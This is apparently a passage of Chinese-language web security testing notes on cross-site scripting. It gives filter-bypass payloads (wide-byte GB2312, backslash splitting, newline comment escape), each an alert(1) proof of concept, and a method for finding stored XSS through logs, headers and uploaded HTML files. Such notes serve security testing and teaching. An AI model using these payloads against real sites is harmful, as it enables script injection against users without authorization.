**宽字节绕过**

```利用前提<meta>标签中有如下内容
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />

pyload
<img src="1%c0%22 onerror="alert%26%23x28%3b1%26%23x29%3b">
```

***反斜线绕过***

```
需要能够传两个参数，一个用反斜杠过滤双引号，一个用来写入js代码
location.href="127.0.0.1/?"+"ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//
```

***换行符绕过***
```只有在注释中输出内容才能使用
示例：
//这是注释
//这是注释{参数}
{参数}=alert(1)
//这是注释
//这是注释alert(1)
在注释中无法执行
使用%0a用来跳过单行注释{参数}=%0alert(1)
//这是注释
//这是注释
alert(1)
利用换行在第二行注释中换了行，导致单行注释//没有注释到alert(1)
```


## 查找利用存储型XSS

确定保存型XSS漏洞的过程与前面描述的确定反射型XSS漏洞的过程类似。 

但是，这两个过程之间也存在一些重要的区别；

在进行测试时必须记住这些区别，以确定尽可能多的漏洞。

> (1) 向应用程序的每一个可能的位置提交一个特殊字符串后，必须反复检查应用程序的全部内容与功能；
>
> (2) 如有可能，应检查管理员能够访问的区域，确定其中是否有可以被非管理用户控制的数据；
>
> ​      比如有些应用可以在浏览器查看日志，攻击者可留下恶意的HTML日志加以利用；
>
> (3) 检查应用的整个流程，确保测试彻底，检查任何可控的带外通道，如HTTP消息头；

**在上传文件中测试XSS**

如果应用程序允许用户上传可被其它用户查看下载的文件，就会出现保存型XSS，这种漏洞常被人们忽略。

测试时，首先上传一个验证性的HTML文件。

如果该文件被接受，则尝试以正常方式下载该文件。

如果应用程序按照原样返回最初的文件，并且脚本被执行，则应用肯定易于受到攻击。
